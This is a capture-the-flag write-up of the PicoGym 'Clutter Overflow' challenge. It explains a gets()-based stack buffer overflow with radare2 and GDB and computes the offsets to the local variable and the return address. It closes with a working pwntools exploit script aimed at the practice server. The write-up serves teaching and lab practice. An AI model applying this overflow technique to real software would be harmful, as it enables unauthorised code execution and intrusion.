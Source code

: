 +++
author = "biplavxyz"
date = "2021-10-21"
title = "PicoGym-2021 - Writeup - Binary Exploitation - Clutter Overflow"
+++

This writeup is going to be about 'Clutter Overflow' challenge from the binary expoitation category of PicoGym. Radare2, and GDB will be used to solve this challenge.

`Binary Exploitation: Clutter Overflow`  
Running the binary with sample input `testinput` does not affect the program, prints out `code == 0x0`
and `code != 0xdeadbeef`  and simply exits.
![1](/1_co.png)

As the challenge title has the word `overflow` in it, most likely it's a buffer overflow challenge. So, providing large input of `A` character changes the code value. It overflowed.
![2](/2_co.png)  
It can be verified that it's really a buffer overflow vulnerability by adding more `A` characters as an input. It returns `segmentation fault` error when passed such a large input. The `SegFault` error occured because our input overwrote everything including the `return address` and tried to return to `0x41414141` location which does not exist in the memory.    
 
Stack and Exploitation
---------------------------------------------------------------
The given binary can be opened in `radare2` with command `r2 ./chall` or `r2 -d ./chall` to open in debug mode.  
Analysis can be done with `aaaa`, imports can be viewed with `ii` command, and functions can be listed with `afl`.  
![4](/4_co.png)  
We can see `main` function in there. So, `s main` can be used to seek to the main function.  
`pdf` prints disassembly of the `main` function.  
![5](/5_co.png)  
Let's understand how the stack is working here, and how can we overwrite local variable to change the value, and also overwrite the return address so that we can jump to anywhere we want.  

---------------------------------------------
Starting with the Standard Entry Sequence 
--------------------------------------------- 
{{< code language="asm" title="Standard Entry Sequence" id="1" expand="Show" collapse="Hide" isCollapsed="false" >}}
push rbp
mov rbp, rsp
sub rsp, 0x110
{{< /code >}}

Here, `rbp` register is pushed onto the stack which saves the value of the base pointer `rbp` . The base pointer `RBP` always points to the base of the stack, and the Stack pointer `RSP` always points to the top of the stack.  
Then, the current value of `rsp` is moved onto `rbp`, meaning the `rbp` also now points to top of the stack.  
Finally, `sub rsp, 0x110` allocates `0x110` bytes on the stack to store the local variables.  
The radare2 command `? 0x110` can be used to print `0x110` in all types, which is equivalent to `272` in decimal.  
![7](/7_co.png)  

![6](/6_co.png)
After this `standard entry sequence`, the instruction `mov qword[var_8h], 0` moves 0 to the value stored at location of `var_8h`.  
As this is 64 bit binary, the local variable `var_8h` and `rbp` are placed in the difference of 8 bytes in the stack.

All of this might seem confusing. So, I  decided to draw the stack layout and show how everything is stored in the stack.

![8](/8_co.jpg) 
----------------------------------------------------------------------------
`Remember: The stack grows from higher memory address to lower memory address` 
------------------------------------------------------------------------------
`Top to bottom` in the above diagram.
    
 First, the `return address` is pushed onto the stack, then `RBP` is stored. Afterwards, `0x110` bytes or `272` bytes in decimal is allocated to store local variables. First `8 bytes` is taken by local variable `var_8h`. So, now we have `272-8 = 264` bytes left on the stack.  

Thus, there is 264 bytes to take character string input using `gets` function call, which will be stored as a character string array.  
As `gets` never checks the length of input, it accepts input of very large length. It is very serious issue, and it is possible to overwrite `variables` and `return addresses` because of this.

But here something feels little bit different!  
As stack grows from higher memory address to lower memory address, the `local variable` is already placed on the address higher than that of the `character array input`. So, how can we overwrite the variable that's in opposite direction of where the stack grows.  
It is because `arrays` grow from `lower memory address` to `higher memory address`.  

So, once our input gets filled up on that remaining 264 bytes space, it starts overwriting everything above it.

--------------------------------
Exploitation
--------------------------------
Now, after understanding all of this, I think exploitation would be very easy. It can be exploited two ways:  
Either by changing the local value to equal to `0xdeadbeef` which gives us the flag,  
Or by changing the `return address` to point to the `memory address` which prints the flag.  
As the remaining size for the input is only `264` bytes, anything beyond that should overflow local variable `var_8h` first as it's right above the character array. 

So, with `264+8` we should be able to change the variable to anything we want. Those `8 bytes` can be set to `0xdeadbeef` so that it will give us the flag.

Or, Another way would be to control the `return address` so that we can jump to anywhere in the program.  
For that, we need `264+8+8=280` bytes. 

I used `gdb` to show what happens to `RBP` when we pass the character input of `273` A's.
As, `264+8=272`, 273 characters should overwrite `RBP` value with one `41` as `A` is equivalent to `41` in hex.

![10](/10_co.png)  

As expected, input of `273 A's` overwrites one `A` at `Rbp`. 
   
Now using same idea, here 264 plus first 8 bytes overwrites `local variable`, and another 8 bytes overwrites `RBP` as the RBP is right above the `local variable` as shown in the stack layout above. 
   
Thus, by writing extra `8 bytes` we can fully overwrite `Rbp` and thus can control the return address of the program. Finally, with `280` bytes of input, our program will be pointing to the return address, so that we can overwrite it with any location where we want to jump in the program. For the purpose of this challenge, jumping to the address where `cat flag.txt` is invoked will give us the flag. 

In `disassembled` code above, it can be seen that `cat flag.txt` is being called at location `0x0040077e`. So, providing `280` bytes of input and adding that memory location will overwrite the return address and thus invoke the `cat flag.txt` command and show us the flag.

I used `pwntools` to create an exploit that displays us the flag.   

{{< code language="python" title="Exploit Payload" id="2" expand="Show" collapse="Hide" isCollapsed="false" >}}
from pwn import *

#Sets remote host and port
p = remote("mars.picoctf.net", 31890)

#Only one of the payloads below will work at a time

#This overwrites the instruction pointer, jumps to `0x0040077e`, and thus executes `cat flag.txt`
########## Use This or The Other One ###############

payload = b"A"*280 
payload += p64(0x0040077e)

####################################################


#This overwrites the variable to make it equal to "0xdeadbeef", which prints us the flag
######### Use This or The Other One ################

#payload = b"A"*264 
#payload += p64(0xdeadbeef)

####################################################
p.sendline(payload)

p.interactive()
{{< /code >}}

Hope you learned something.  
Thank you so much for reading!  
> - <cite>seizetheday</cite>
 
